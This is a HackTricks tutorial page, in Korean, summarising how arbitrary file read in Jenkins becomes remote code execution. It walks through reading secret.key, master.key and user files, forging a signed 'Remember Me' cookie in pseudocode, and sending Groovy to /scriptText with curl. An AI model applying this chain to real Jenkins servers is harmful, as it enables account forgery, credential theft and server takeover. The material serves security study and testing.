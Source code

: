 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 악용하여 RCE를 얻는 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지 사용됩니다:

### 공격 전제 조건

* **기능 요구 사항:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
* **접근 수준:** 공격자는 Overall/Read 권한이 필요합니다.
* **비밀 접근:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### 상세한 악용 과정

#### 1단계: 데이터 수집

**사용자 정보 검색**

* 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 접근하여 수집합니다:
* **사용자 이름**
* **사용자 시드**
* **타임스탬프**
* **비밀번호 해시**

**비밀 키 추출**

* 쿠키 서명에 사용되는 암호화 키를 추출합니다:
* **비밀 키:** `$JENKINS_HOME/secret.key`
* **마스터 키:** `$JENKINS_HOME/secrets/master.key`
* **MAC 키 파일:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 2단계: 쿠키 위조

**토큰 준비**

*   **토큰 만료 시간 계산:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 현재 시간에 1시간 추가
```
{% endcode %}
*   **토큰을 위한 데이터 연결:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 키 복호화**

*   **MAC 키 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**서명 계산**

*   **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey)  // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac)  // MAC을 16진수 문자열로 변환
```

**쿠키 인코딩**

*   **최종 쿠키 생성:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 쿠키 데이터를 Base64로 인코딩
```
{% endcode %}

#### 3단계: 코드 실행

**세션 인증**

* **CSRF 및 세션 토큰 가져오기:**
* `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
* 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**명령 실행 요청**

*   **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키로 Jenkins에 요청을 보내는 방법을 보여줍니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
